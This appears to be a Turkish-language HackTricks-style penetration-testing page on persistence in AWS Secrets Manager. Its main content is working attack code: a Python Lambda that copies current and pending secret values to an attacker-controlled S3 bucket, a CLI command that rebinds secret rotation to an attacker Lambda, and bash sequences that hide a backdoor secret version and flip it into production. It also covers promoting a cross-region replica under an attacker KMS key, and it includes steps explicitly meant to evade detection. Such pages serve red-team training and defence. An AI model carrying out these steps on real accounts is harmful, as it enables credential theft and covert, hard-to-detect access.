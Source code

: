 # AWS - Secrets Manager Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Daha fazla bilgi için bakın:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Resource Policies ile

Resource policy'ler aracılığıyla **secrets'e harici hesaplara erişim verme** mümkündür. Daha fazla bilgi için [**Secrets Manager Privesc page**](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) sayfasına bakın. Bir secret'e **erişmek** için dış hesabın ayrıca secret'i şifreleyen KMS anahtarına da **erişimi olması gerektiğini** unutmayın.

### Secrets Rotate Lambda ile

Secret'leri otomatik olarak **rotate** etmek için yapılandırılmış bir **Lambda** çağrılır. Eğer bir saldırgan **kodu değiştirebilirse** yeni secret'i doğrudan kendine **exfiltrate** edebilir.

Böyle bir eylem için lambda kodu şu şekilde görünebilir:
```python
import boto3

def rotate_secrets(event, context):
# Create a Secrets Manager client
client = boto3.client('secretsmanager')

# Retrieve the current secret value
secret_value = client.get_secret_value(SecretId='example_secret_id')['SecretString']

# Rotate the secret by updating its value
new_secret_value = rotate_secret(secret_value)
client.update_secret(SecretId='example_secret_id', SecretString=new_secret_value)

def rotate_secret(secret_value):
# Perform the rotation logic here, e.g., generate a new password

# Example: Generate a new password
new_secret_value = generate_password()

return new_secret_value

def generate_password():
# Example: Generate a random password using the secrets module
import secrets
import string
password = ''.join(secrets.choice(string.ascii_letters + string.digits) for i in range(16))
return password
```
### RotateSecret ile döndürme Lambda'sını saldırgan kontrollü bir işleve değiştirin

secretsmanager:RotateSecret'ı kötüye kullanarak bir secret'ı saldırgan kontrolündeki rotation Lambda'ya yeniden bağlayın ve anlık bir rotation tetikleyin. Kötü amaçlı fonksiyon rotation adımları sırasında (createSecret/setSecret/testSecret/finishSecret) secret sürümlerini (AWSCURRENT/AWSPENDING) bir saldırgan hedefe (ör. S3 veya harici HTTP) exfiltrates eder.

- Gereksinimler
- İzinler: `secretsmanager:RotateSecret`, `lambda:InvokeFunction` saldırgan Lambda'sı üzerinde, Lambda yürütme rolünü sağlamak için `iam:CreateRole/PassRole/PutRolePolicy` (veya AttachRolePolicy) ile birlikte `secretsmanager:GetSecretValue` ve tercihen `secretsmanager:PutSecretValue`, `secretsmanager:UpdateSecretVersionStage` (böylece rotation çalışmaya devam eder), secret KMS anahtarı için KMS `kms:Decrypt`, ve exfiltration için `s3:PutObject` (veya dışa giden egress).
- Rotation etkinleştirilmiş veya rotation'ı etkinleştirme yeteneğine sahip hedef bir secret id'si (`SecretId`).

- Etki
- Saldırgan, meşru rotation kodunu değiştirmeden secret değer(lerini) elde eder. Yalnızca rotation yapılandırması saldırgan Lambda'sına işaret edecek şekilde değiştirilir. Farkedilmezse, planlanmış sonraki rotasyonlar da saldırganın fonksiyonunu çağırmaya devam edecektir.

- Saldırı adımları (CLI)
1) Saldırgan hedefi ve Lambda rolünü hazırlayın
- Exfiltration için bir S3 bucket oluşturun ve Lambda tarafından güvenilen, secret'i okumak ve S3'e yazmak için izinlere sahip bir yürütme rolü oluşturun (gerektiğinde logs/KMS izinleri dahil).
2) Her rotation adımında secret değerlerini alıp S3'e yazan saldırgan Lambda'yı dağıtın. Minimum rotation mantığı, hizmetin sağlıklı kalması için AWSCURRENT'i AWSPENDING'e kopyalamak ve finishSecret içinde yükseltmek kadar basit olabilir.
3) Rotation'ı yeniden bağlayın ve tetikleyin
- `aws secretsmanager rotate-secret --secret-id <SECRET_ARN> --rotation-lambda-arn <ATTACKER_LAMBDA_ARN> --rotation-rules '{"ScheduleExpression":"rate(10 days)"}' --rotate-immediately`
4) İlgili secret için S3 prefix'ini listeleyerek ve JSON artefaktlarını inceleyerek exfiltration'ı doğrulayın.
5) (İsteğe bağlı) Tespiti azaltmak için orijinal rotation Lambda'sını geri yükleyin.

- Örnek saldırgan Lambda (Python) — S3'e exfiltrating
- Environment: `EXFIL_BUCKET=<bucket>`
- Handler: `lambda_function.lambda_handler`
```python
import boto3, json, os, base64, datetime
s3 = boto3.client('s3')
sm = boto3.client('secretsmanager')
BUCKET = os.environ['EXFIL_BUCKET']

def write_s3(key, data):
s3.put_object(Bucket=BUCKET, Key=key, Body=json.dumps(data).encode('utf-8'), ContentType='application/json')

def lambda_handler(event, context):
sid, token, step = event['SecretId'], event['ClientRequestToken'], event['Step']
# Exfil both stages best-effort
def getv(**kw):
try:
r = sm.get_secret_value(**kw)
return {'SecretString': r.get('SecretString')} if 'SecretString' in r else {'SecretBinary': base64.b64encode(r['SecretBinary']).decode('utf-8')}
except Exception as e:
return {'error': str(e)}
current = getv(SecretId=sid, VersionStage='AWSCURRENT')
pending = getv(SecretId=sid, VersionStage='AWSPENDING')
key = f"{sid.replace(':','_')}/{step}/{token}.json"
write_s3(key, {'time': datetime.datetime.utcnow().strftime('%Y-%m-%dT%H:%M:%SZ'), 'step': step, 'secret_id': sid, 'token': token, 'current': current, 'pending': pending})
# Minimal rotation (optional): copy current->pending and promote in finishSecret
# (Implement createSecret/finishSecret using PutSecretValue and UpdateSecretVersionStage)
```
### Version Stage Hijacking for Covert Persistence (custom stage + fast AWSCURRENT flip)

Secrets Manager sürüm aşama etiketlerini kötüye kullanarak saldırgan tarafından kontrol edilen bir secret sürümü yerleştirin ve bunu üretimin orijinal `AWSCURRENT`'ı kullanmaya devam ettiği sırada özel bir aşama altında (ör. `ATTACKER`) gizli tutun. İstediğiniz herhangi bir anda `AWSCURRENT`'ı saldırganın sürümüne taşıyıp bağımlı iş yüklerini zehirleyin, sonra tespiti en aza indirmek için geri yükleyin. Bu, secret adı veya rotation yapılandırmasını değiştirmeden gizli bir backdoor kalıcılığı ve hızlı kullanım-zamanı manipülasyonu sağlar.

- Requirements
- Permissions: `secretsmanager:PutSecretValue`, `secretsmanager:UpdateSecretVersionStage`, `secretsmanager:DescribeSecret`, `secretsmanager:ListSecretVersionIds`, `secretsmanager:GetSecretValue` (for verification)
- Target secret id in the Region.

- Impact
- Gizli, saldırgan tarafından kontrol edilen bir secret sürümünü koruyun ve talep üzerine atomik olarak `AWSCURRENT`'ı ona çevirin; aynı secret adını çözen herhangi bir tüketiciyi etkiler. Bu flip ve hızlı geri alma, tespit edilme şansını azaltırken kullanım-zamanı ihlaline imkan tanır.

- Attack steps (CLI)
- Preparation
- `export SECRET_ID=<target secret id or arn>`

<details>
<summary>CLI komutları</summary>
```bash
# 1) Capture current production version id (the one holding AWSCURRENT)
CUR=$(aws secretsmanager list-secret-version-ids \
--secret-id "$SECRET_ID" \
--query "Versions[?contains(VersionStages, AWSCURRENT)].VersionId | [0]" \
--output text)

# 2) Create attacker version with known value (this will temporarily move AWSCURRENT)
BACKTOK=$(uuidgen)
aws secretsmanager put-secret-value \
--secret-id "$SECRET_ID" \
--client-request-token "$BACKTOK" \
--secret-string {backdoor:hunter2!}

# 3) Restore production and hide attacker version under custom stage
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$CUR" \
--remove-from-version-id "$BACKTOK"

aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage ATTACKER \
--move-to-version-id "$BACKTOK"

# Verify stages
aws secretsmanager list-secret-version-ids --secret-id "$SECRET_ID" --include-deprecated

# 4) On-demand flip to the attacker’s value and revert quickly
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$BACKTOK" \
--remove-from-version-id "$CUR"

# Validate served plaintext now equals the attacker payload
aws secretsmanager get-secret-value --secret-id "$SECRET_ID" --query SecretString --output text

# Revert to reduce detection
aws secretsmanager update-secret-version-stage \
--secret-id "$SECRET_ID" \
--version-stage AWSCURRENT \
--move-to-version-id "$CUR" \
--remove-from-version-id "$BACKTOK"
```
</details>

- Notlar
- `--client-request-token` sağladığınızda, Secrets Manager bunu `VersionId` olarak kullanır. Yeni bir sürüm ekleyip `--version-stages`'i açıkça ayarlamazsanız, varsayılan olarak `AWSCURRENT` yeni sürüme taşınır ve önceki sürüm `AWSPREVIOUS` olarak işaretlenir.


### Cross-Region Replica Promotion Backdoor (replicate ➜ promote ➜ permissive policy)

Secrets Manager'ın multi-Region replication özelliğini suistimal ederek hedef bir secret'ın daha az izlenen bir Region'a replikasını oluşturun, o Region'da attacker-controlled KMS anahtarıyla şifreleyin, ardından replikayı standalone bir secret olarak promote edin ve attacker'e okuma erişimi veren permissive resource policy ekleyin. Birincil Region'daki orijinal secret değişmeden kalır; bu sayede birincilin KMS/policy kısıtlamalarını atlayarak yükseltilmiş replikadan secret değerine kalıcı ve gizli erişim sağlanır.

- Gereksinimler
- Permissions: `secretsmanager:ReplicateSecretToRegions`, `secretsmanager:StopReplicationToReplica`, `secretsmanager:PutResourcePolicy`, `secretsmanager:GetResourcePolicy`, `secretsmanager:DescribeSecret`.
- Replika Region'da: `kms:CreateKey`, `kms:CreateAlias`, `kms:CreateGrant` (veya `kms:PutKeyPolicy`) ile attacker principal'ın `kms:Decrypt` yapmasına izin verilmeli.
- Yükseltilmiş secret'e okuma erişimi verilecek bir attacker principal (user/role).

- Etki
- Attacker-controlled KMS CMK ve permissive resource policy altında, standalone bir replika üzerinden secret değerine kalıcı çapraz-Region erişim yolu. Orijinal Region'daki primary secret etkilenmez.

- Attack (CLI)
- Vars
```bash
export R1=<primary-region>   # e.g., us-east-1
export R2=<replica-region>   # e.g., us-west-2
export SECRET_ID=<secret name or ARN in R1>
export ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
export ATTACKER_ARN=<arn:aws:iam::<ACCOUNT_ID>:user/<attacker> or role>
```
1) attacker-controlled KMS key'i replica Region'da oluşturun
```bash
cat > /tmp/kms_policy.json <<'JSON'
{"Version":"2012-10-17","Statement":[
{"Sid":"EnableRoot","Effect":"Allow","Principal":{"AWS":"arn:aws:iam::${ACCOUNT_ID}:root"},"Action":"kms:*","Resource":"*"}
]}
JSON
KMS_KEY_ID=$(aws kms create-key --region "$R2" --description "Attacker CMK for replica" --policy file:///tmp/kms_policy.json \
--query KeyMetadata.KeyId --output text)
aws kms create-alias --region "$R2" --alias-name alias/attacker-sm --target-key-id "$KMS_KEY_ID"
# Allow attacker to decrypt via a grant (or use PutKeyPolicy to add the principal)
aws kms create-grant --region "$R2" --key-id "$KMS_KEY_ID" --grantee-principal "$ATTACKER_ARN" --operations Decrypt DescribeKey
```
2) attacker KMS key kullanarak secret'i R2'ye çoğaltın
```bash
aws secretsmanager replicate-secret-to-regions --region "$R1" --secret-id "$SECRET_ID" \
--add-replica-regions Region=$R2,KmsKeyId=alias/attacker-sm --force-overwrite-replica-secret
aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" | jq '.ReplicationStatus'
```
3) R2'de replikayı bağımsız hale getirin
```bash
# Use the secret name (same across Regions)
NAME=$(aws secretsmanager describe-secret --region "$R1" --secret-id "$SECRET_ID" --query Name --output text)
aws secretsmanager stop-replication-to-replica --region "$R2" --secret-id "$NAME"
aws secretsmanager describe-secret --region "$R2" --secret-id "$NAME"
```
4) R2'deki standalone secret'e permissive resource policy ekle
```bash
cat > /tmp/replica_policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AttackerRead","Effect":"Allow","Principal":{"AWS":"${ATTACKER_ARN}"},"Action":["secretsmanager:GetSecretValue"],"Resource":"*"}]}
JSON
aws secretsmanager put-resource-policy --region "$R2" --secret-id "$NAME" --resource-policy file:///tmp/replica_policy.json --block-public-policy
aws secretsmanager get-resource-policy --region "$R2" --secret-id "$NAME"
```
5) R2'deki attacker principal'dan secret'i oku
```bash
# Configure attacker credentials and read
aws secretsmanager get-secret-value --region "$R2" --secret-id "$NAME" --query SecretString --output text
```
{{#include ../../../../banners/hacktricks-training.md}}
